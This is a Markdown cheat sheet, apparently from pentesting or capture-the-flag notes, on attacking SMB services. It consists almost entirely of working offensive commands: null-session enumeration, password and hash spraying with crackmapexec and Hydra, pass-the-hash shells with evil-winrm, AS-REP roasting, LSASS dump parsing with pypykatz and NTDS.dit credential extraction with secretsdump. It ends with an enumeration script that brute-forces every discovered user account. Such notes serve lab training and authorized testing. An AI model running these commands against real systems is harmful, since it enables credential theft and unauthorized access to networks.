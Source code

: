 ## Nmap Scanning

- `nmap 10.10.10.10. --script=smb-enum*`
- `nmap 10.10.10.10 --script=smb-vuln*`
- `nmap 10.10.10.10. --script=smb-os*`
- `nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.10.10`


## If have rcpbind
- `nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.23.207IP`
- `rpcclient -U "" <ip>`
- **commands**
  - rpcclient>srvinfo
  - rpcclient>enumdomusers
  - rpcclient>getdompwinfo

## Commands/Tools
- *crackmapexec*
	- `cme smb 10.10.10.10 -u {username} -p '{password}' --shares`
		- this will list out the available shares
	- `cme smb 10.10.10.10 -u users -H hashes`
- *Smbclient*
	- `smbclient -L \\\\10.10.10.10\\`
	- `smbclient \\\\10.10.10.10\\ADMIN$`
	- `smbclient \\\\10.10.10.10\\IPC$`
	- `smbclient -L \\\\IP\\`
	- `smbclient //IP/anonymous`
	- can recursively downlaod all the files here:
	- `smbget -R smb://IP/anonymous`
	- `smbclient -L \\\\IP\\anonymous`
	- `smbclient -U username \\\\IP\\filename`
 	- *LSASS Dump*
		- `smbclient.py user:'password'@{ip}`
    - `smbclient -N [\\\\IP\\profiles$](file://IP/profiles$) -c ls | awk '{ print $1 }'`
		- lists everything in the folder
- *Vuln scan*
	- `enum4linux -a -v {ip}`
		- if its a linux box
- *Hydra*
	- `hydra -l username -P passwordfile.txt smb://IP -t 4 -V`
- *Metasploit* for smb version
- *Evil-winrm* For a shell
	- if have `SeBackupPrivilege` is enabled can use evil-winrm
	- `evil-winrm -i IP -u username -H hash`
- *Smbmap*
	- `smbmap -u {username} -p {password} -d {domain} -H IP`
	- add `-A '(xlsx|docx|txt|xml)' -R` at the end to crawl the users$ share
	- `smbmap -u guest -H IP`
- *Impacket*
	- `GetNPUsers.py domain.local/ -no-pass -userfiles users.txt -dc-ip IP | grep -v 'KDC_ERR_C_PRINCIPAL_UNKNOWN'`
- *FFUF*
	- `./fuff -w /usr/share/wordlists/dirb/common.txt -u http://IP/FUZZ`
- *pypykatz*
	- pip3 install pypykatz
	- `pypykatz lsa minidump lsass.DMP`
	- pypykatz to extract and crackmapexec to spray
	- `pypykatz lsa minidump lsass.DMP | grep 'NT:' | awk '{ print $2 }' | sort -u > hashes pypykatz lsa minidump lsass.DMP | grep 'Username:' | awk '{ print $2 }' | sort - u > users` `
- *Impacket*
	- secretsdymp.py, wmiexec.py & psexec.py
	- `secretsdump.py -ntds NTDS.dit -system system.hive LOCAL`
 - *Searchploit* samba verisons

**SMB Commands**
```
- ls
- dir
- cd
- history
- put
- get
- mget
- more
- pwd
- start
- open
- rename
- chmod
- getfacl
- echo
- cancel
- close
- exit
- recurse
- showacls
- vuid
```

# Scripts

## smbver.sh
```
#!/bin/sh
#Author: rewardone
#Description:
# Requires root or enough permissions to use tcpdump
# Will listen for the first 7 packets of a null login
# and grab the SMB Version
#Notes:
# Will sometimes not capture or will print multiple
# lines. May need to run a second time for success.
if [ -z $1 ]; then echo "Usage: ./smbver.sh RHOST {RPORT}" && exit; else rhost=$1; fi
if [ ! -z $2 ]; then rport=$2; else rport=139; fi
tcpdump -s0 -n -i tap0 src $rhost and port $rport -A -c 7 2>/dev/null | grep -i "samba\|s.a.m" | tr -d '.' | grep -oP 'UnixSamba.*[0-9a-z]' | tr -d '\n' & echo -n "$rhost: " &
echo "exit" | smbclient -L $rhost 1>/dev/null 2>/dev/null
sleep 0.5 && echo ""
```

## smbenum.sh
```
#!/bin/bash
# smbenum 0.2 - This script will enumerate SMB using every tool in the arsenal
# SECFORCE - Antonio Quina
# All credits to Bernardo Damele A. G. <bernardo.damele@gmail.com> for the ms08-067_check.py script

IFACE="eth0"

if [ $# -eq 0 ]
    then
        echo "Usage: $0 <IP>"
        echo "eg: $0 10.10.10.10"
        exit
    else
        IP="$1"
fi

echo -e "\n########## Getting Netbios name ##########"
nbtscan -v -h $IP

echo -e "\n########## Checking for NULL sessions ##########"
output=`bash -c "echo 'srvinfo' | rpcclient $IP -U%"`
echo $output

echo -e "\n########## Enumerating domains ##########"
bash -c "echo 'enumdomains' | rpcclient $IP -U%"

echo -e "\n########## Enumerating password and lockout policies ##########"
polenum $IP

echo -e "\n########## Enumerating users ##########"
nmap -Pn -T4 -sS -p139,445 --script=smb-enum-users $IP
bash -c "echo 'enumdomusers' | rpcclient $IP -U%"
bash -c "echo 'enumdomusers' | rpcclient $IP -U%" | cut -d[ -f2 | cut -d] -f1 > /tmp/$IP-users.txt

echo -e "\n########## Enumerating Administrators ##########"
net rpc group members "Administrators" -I $IP -U%

echo -e "\n########## Enumerating Domain Admins ##########"
net rpc group members "Domain Admins" -I $IP -U%

echo -e "\n########## Enumerating groups ##########"
nmap -Pn -T4 -sS -p139,445 --script=smb-enum-groups $IP

echo -e "\n########## Enumerating shares ##########"
nmap -Pn -T4 -sS -p139,445 --script=smb-enum-shares $IP

echo -e "\n########## Bruteforcing all users with 'password', blank and username as password"
hydra -e ns -L /tmp/$IP-users.txt -p password $IP smb -t 1
rm /tmp/$IP-users.txt
```
